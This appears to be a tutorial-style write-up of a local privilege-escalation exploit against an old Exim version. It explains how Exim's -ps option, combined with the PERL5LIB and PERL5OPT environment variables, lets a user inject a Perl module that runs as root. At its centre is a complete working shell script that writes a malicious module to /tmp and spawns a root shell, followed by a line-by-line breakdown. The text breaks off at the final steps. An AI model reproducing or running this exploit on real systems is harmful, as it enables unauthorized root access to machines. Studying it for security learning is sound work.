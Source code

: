 In this version of Exim, the -ps option causes Exim to invoke its embedded Perl interpreter,
or in other words the computer would now read and run any Perl code that was part of the command
it was being given, as well as it would do so in a root environment, before dropping privileges.
This meant that Perl environment variables, such as PERL5LIB and PERL5OPT, could now be
passed data that would be allowed to execute, using the -ps option with Exim.
This allows for module injection, where you can:
- Set the PERL5LIB env variable to check in a directory of your choice (PERL5LIB=/tmp)
- Set the PERL5OPT env variable to load a module of your choice
- Use Exim's -ps option to run Perl code as root, which makes the entire attack possible

Combining these two env variables and Exim's -ps option, you can attain arbitrary code
execution, which can allow you to gain a root shell with a simple script,
containing something like system("bin/sh")

## Script that takes advantage of this exploit ##

#!/bin/sh
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps

## Breakdown of script above ##
# First line
Creates a file named root.pm, located in the /tmp directory: (cat > /tmp/root.pm).
The << EOF syntax is saying that the content of root.pm will contain the following lines
and to stop adding lines when EOF is parsed. EOF could be anything, it is simply a signal
to stop adding lines to root.pm

# Next 6 lines
This is the script that will be added to the Perl module root.pm, as well as the signal to
stop adding lines to root.pm (EOF)
The content is a Perl script that spawns a shell via system("/bin/sh") — and because it is run
with root privileges, it becomes a root shell.

# Last line is a Linux command:
PERL5LIB=/tmp tells the Perl interpreter to check the /tmp directory for modules, before
        everything else
PERL5OPT=-Mroot injects an invisible command line argument that tells the Perl interpreter to
        run the Perl module /tmp/root.pm
/usr/exim/bin/exim -ps will invoke a Perl interpreter and run everything as root which will
        everything to run in the first place

# Final steps
- One local machine:
        1. Create a file that contains the script above
        2. Make it executable
